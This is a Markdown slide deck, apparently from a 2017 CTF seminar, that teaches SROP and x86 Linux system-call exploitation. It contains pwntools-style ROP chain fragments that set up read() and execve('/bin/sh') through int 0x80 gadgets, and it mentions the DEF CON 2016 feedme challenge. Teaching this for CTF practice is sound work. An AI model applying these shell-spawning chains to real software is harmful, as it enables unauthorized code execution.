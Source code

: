 footer: © 2O2L2H Book/Seminar, 2017
slidenumbers: true

# [fit] SROP 

### June 8, 2017   2O2L2H/humb1ec0ding

```
/awesome-ctf-wargame/seminar/topic/srop
```

---
# [fit] Linux System Calls

![left fit](./fig/linux-system-call.png)

- `int 80`
- system call number

---
# [fit] [Assembly System Calls](https://www.tutorialspoint.com/assembly_programming/assembly_system_calls.htm)

![left fit](./fig/srop-arg.png)

- `eax` : system call number
- `ebx` : file descriptor - `stdin/out/err`
- `ecx` : buffer
- `edx` : siz


---
# system call : assembly

```
mov eax,1   ; system call number (sys_exit)
int 0x80    ; call kernel

mov edx,4   ; message length
mov ecx,msg ; message to write
mov ebx,1   ; file descriptor (stdout)
mov eax,4   ; system call number (sys_write)
int 0x80    ; call kernel
```

---
# gadget for system call

- pop reg, ret
- int 0x80, ret

### Useful exploit

- open("flag"), read(buf,size,), write(buf, size, )
- execve("/bin/sh", NULL, NULL)
- [security - system() vs execve() - Stack Overflow](https://stackoverflow.com/questions/27461936/system-vs-execve)



---
## read(0, e.bss(), 0x8)

```
ex += p32(pop_eax)              # pop eax
ex += p32(0x3)                  # number of systemcall sys_read
ex += p32(pop_edx_edx_ebx_ret)  # pop edx/ecx/ebx
ex += p32(0x8)                  # size of stdin
ex += p32(elf.bss())            # buf for stdin
ex += p32(0)                    # fd of stdin
ex += p32(int0x80)              # invoke system calls in Linux on x86
```

---
## execve("/bin/sh",NULL, NULL)

```
ex += p32(pop_eax)              # pop eax
ex += p32(0xb)                  # number of systemcall sys_execve
ex += p32(pop_edx_edx_ebx_ret)  # pop edx/ecx/ebx
ex += p32(0)                    # third argument of execve : NULL
ex += p32(0)                    # second argument of execve : NULL
ex += p32(elf.bss())            # first argument of execve : buf
ex += p32(int0x80)              # invoke system calls
```


---
# exec

PATH 에 등록된 디렉토리를 참고하여 다른 프로그램을 실행하고 종료

![inline fit](./fig/exec.png)

![inline fit](./fig/exec2.png)


---
# [fit] Defcon 2016 feedme

- Canary : fork child, bruteforce
- SROP : static linked, stripped




